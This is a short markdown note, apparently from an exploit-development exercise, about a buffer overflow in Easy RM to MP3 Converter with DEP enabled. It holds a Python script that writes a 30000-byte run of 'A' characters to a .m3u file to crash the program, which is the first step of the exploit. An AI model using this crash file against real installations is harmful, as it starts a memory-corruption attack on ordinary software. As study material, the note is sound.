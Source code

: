 # EasyRMtoMP3Converter (DEP enabled)

Downloaded from: https://www.exploit-db.com/exploits/10374

## Initial Crash

```py
#!/usr/bin/python 

file = "crash1.m3u"
f = open(file , "w")

CRASH_LEN = 30000  # change me

junk = "A" * CRASH_LEN
f.write(junk)
f.close()
```
